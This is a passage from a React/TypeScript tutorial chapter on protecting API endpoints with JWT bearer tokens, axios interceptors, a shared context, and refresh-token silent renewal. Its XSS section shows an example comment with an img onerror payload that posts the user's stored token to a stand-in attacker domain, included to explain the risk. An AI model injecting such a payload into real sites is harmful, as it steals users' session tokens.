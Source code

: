 # Protected API endpoints - Chapter 3
As much as we do our best to protect our data with the changes in the last chapters,
you can never fully protect it only on the frontend because our javascript is accessible (and can be changed) to any visitor.

Therefore, it is crucial that our API endpoints are protected. There are a couple ways to do this.
For example the backend could open a session and set a cookie in your browser when you login and verify this cookie on every call.
Another popular way is to retrieve an access token (JWT) when you log in, that's what's happening in this app.
We can then grab this token in the frontend and add it to the Headers of every call.
The backend can verify this token (by calling the auth server). A big advantage of this, is that it allows
for SSO (single sign on).
This is possible, because we could re-use this cookie for different applications (they can grab it from the localStorage),
and the backend of those applications can all verify the cookie with the same authorization server.
Another cool thing is that CSRF attacks are not an issue (they are related to cookies).
On the other hand we expose ourselves to XSS attacks (cross site scripting), below we will talk about how to handle this.

## Adding the token to our AJAX calls.
You might have noticed that we use the `axios` library to make our calls to the backend. This library makes it very easy
to intercept each call and add a Header to it, which is exactly what we need to do with our access token.
If you run the following code somewhere in your app, an `Authorization` header will be added to all AJAX calls.
```js
axios.interceptors.request.use(
    config => {
        config.headers.authorization = `Bearer ${accessToken}`;
        return config;
    }
)
```
It's a better practice to actually make a different instance of `axios` that adds this `Authorization` header, so 
that we can choose when to send the header and when not. It wouldn't be super safe to send our token to every
public API we are calling with our application.
```js
const authAxios = axios.create({
    baseUrl: apiUrl,
    headers: {
        Authorization: `Bearer ${accessToken}` 
    }
});
```
We can then use the `authAxios` for making calls (for example `authAxios.get('/clients')`)
Now how can we share this `authAxios` instance throughout the application, so that we can use it?
And how can we access the `accessToken` to create this `authAxios` instance in the first place? 
When we talk about sharing something throughout the application, hopefully you're already getting the idea
that we could use the `Context` API for this! And this also allows us to create a wrapper component around the `Provider`, 
so that we can call `useContext(AuthContext)`, to access the accessToken!

Create a file in your `auth` module for our context `src/auth/contexts/FetchContext.tsx`
```tsx
import React, { createContext, useContext, useEffect, useState } from "react";
import axios, { AxiosInstance } from "axios";
import { AuthContext } from "./AuthContext";

const FetchContext = createContext<AxiosInstance>(axios);
const { Provider } = FetchContext;

const FetchProvider = ({ children }: { children: React.ReactNode }) => {
  const [authAxios] = useState(() => axios.create({
            baseURL: process.env.REACT_APP_API_URL,
        }));
  const { authState } = useContext(AuthContext);

  useEffect(() => {
      authAxios.interceptors.request.use(
          (config) => {
              config.headers.Authorization = `Bearer ${authState?.token}`;
              return config;
          },
          (error) => Promise.reject(error)
      );
  }, [authState])

  return <Provider value={authAxios}>{children}</Provider>;
};

export { FetchContext, FetchProvider };
```
If you haven't seen `process.env.REACT_APP_API_URL` before, this is the way we can provide environment variables with CRA.
These variables are defined in the `.env` file in our root folder.
Read more about it [here](https://create-react-app.dev/docs/adding-custom-environment-variables/)

Now to use this `AxiosInstance` in our app, we wrap the `FetchProvider` Around the `App`, but INSIDE the `AuthProvider`,
so that we can access the `AuthContext`.
```tsx
<AuthProvider>
  <FetchProvider>
    <App />
  </FetchProvider>
</AuthProvider>
```
The last thing you need to do, is to search for all uses of `axios`, and replace it with our new instance.
For example in the `ClientsTable`
```js
const retrieveClients = async () => {
    const result = (await axios.get(`${process.env.REACT_APP_API_URL}/clients`)).data;
    setClients(result);
};
```
becomes
```tsx
const authAxios = useContext(FetchContext);
const retrieveClients = async () => {
    const result = (await authAxios.get("/clients")).data;
    setClients(result);
};
```

## Dealing with XSS
A cross site scripting attack is when an attacker is able to execute JavaScript code on your application.
Consider this scenario: 
I'm an attacker and go to a page on an app where users can leave comments or something.
I write this comment: 
```html
Hello, cool blog. <img src=???
onerror="fetch('hackers-delight.com', 
 { method: 'POST', body: localStorage.getItem('token')})" />
```
Now everyone that reads this comment will send off his/her token to my server.

2 best practices to deal with XSS:
* Use a framework like React (but also Angular, etc.), they will do a lot of work to sanitize all user input.
* create tokens with a short lifetime (for example 10 minutes).

### Refreshtokens
We want to avoid that a user has to re-loging everytime we expire our tokens.
For this we receive a refreshtoken from the auth server when we login. We store this token and exchange it for a new
access token when the old one is about to expire.
You may ask yourself why it is safe for these tokens not to expire, if it is unsafe for normal access tokens.
Well, it is not completely safe, but it is safer because:
* It is a one-time token. Once it is used, it loses it's value for an attacker.
* You only send it once over the wire, in contrast to an access token that will be added to all (or most) calls.

On top of that, you can implement extra security measures. 
For example, the auth server can implement that if a refreshtoken is used twice, it logs out both users that used this token.
The auth server can't know which one of the 2 is an attacker, but this way no harm can be done.

### Using the refreshtokens in our app.
Our sts provides us with a refreshtoken when we log in, you can see this in the sessionStorage.
Again the `oidc-client-js` makes it very easy to implement a silent refresh.
the `UserManager` raises events when the token is about to expire, or when it is expired. 
We can subscribe to these events and do a silent sign in (exchange the refreshtoken for a new access token).
Add the following effect to the `AuthProvider` component to do so.
```tsx
useEffect(() => {
    userManager.events.addAccessTokenExpiring(() => {
        renewToken()
    })
    userManager.events.addAccessTokenExpired(() => {
        renewToken()
    })
}, [])
const renewToken = (): Promise<User | void> =>
    userManager
        .signinSilent()
        .then((user) => setAuthInfo(user))
        .catch((err) => userManager.removeUser());

```

### Refreshing a stale access token on startup.
It is also possible that we have an expired token in the `sessionStorage` when we startup the application. 
```tsx
const loadUser = () => userManager.getUser().then((user) => {
  if (user && user.expired) {
      // will only work for refreshes.
      // Save the token in localStorage if you want it to work in a completely new tab also.
      renewToken();
    } else if(user) {
      setAuthInfo(user);
    }
});
```
